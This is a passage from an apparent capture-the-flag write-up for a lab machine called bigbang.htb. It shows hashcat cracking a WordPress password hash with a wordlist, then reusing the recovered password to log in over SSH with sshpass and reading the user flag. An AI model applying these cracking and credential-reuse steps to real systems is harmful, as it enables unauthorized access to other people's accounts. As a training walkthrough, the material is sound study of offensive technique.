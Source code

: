 It does all of `rockyou.txt` in about 20 seconds on my host. It found the password for shawking:

```

$ hashcat wphashes --show --user
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

400 | phpass | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

shawking:$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./:quantumphysics

```

#### Shell

I’ll use SSH to see if that same password is reused for SSH:

```

oxdf@hacky$ sshpass -p 'quantumphysics' ssh shawking@bigbang.htb
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-130-generic x86_64)
...[snip]...
shawking@bigbang:~$

```
*Disclaimer - I like to use `sshpass` to pass passwords via the command line for CTF blog posts because it makes it very clear what I’m doing. Never enter real credentials into the command line like this.*

And grab `user.txt`:

```

shawking@bigbang:~$ cat user.txt
ad2f85e7************************

```

## Shell as developer

### Enumeration

#### Users

shawking cannot run `sudo`:

```

shawking@bigbang:~$ sudo -l
[sudo] password for shawking: 
Sorry, user shawking may not run sudo on bigbang.

```
